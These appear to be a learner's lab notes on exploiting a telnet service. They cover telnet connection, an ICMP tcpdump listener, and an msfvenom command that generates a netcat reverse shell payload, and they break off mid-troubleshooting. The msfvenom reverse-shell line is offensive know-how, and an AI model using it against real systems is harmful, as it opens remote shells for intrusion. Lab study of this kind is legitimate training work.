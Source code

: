 
---

###### **Connecting to Telnet**:

- Command:
    
    ```bash
    telnet [ip] [port]
    ```
    

---

#### **What is a Reverse Shell?**
![[Pasted image 20250107220259.png]]

- **Definition**: A shell that allows the target machine to connect back to the attacker's machine.
- **How it Works**:
    - **Attacking Machine**: Listens on a port for incoming connections.
    - **Target Machine**: Establishes the connection, enabling command/code execution.


##### Using telnet and tcpdump listening 

connect to telnet :

└─$ telnet   10.10.147.81   8012
 


This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on

- `sudo tcpdump ip proto \\icmp -i tun0`


only the last one had run correctly 
![[Pasted image 20250107221447.png]]



![[Pasted image 20250107221505.png]]
##### using msfvenom

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:  

**"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"**

-p = payload

lhost = our local host IP address (this is **your** machine's IP address)

lport = the port to listen on (this is the port on **your** machine)

R = export the payload in raw format


this did not work , how i fixed it :

ip a 
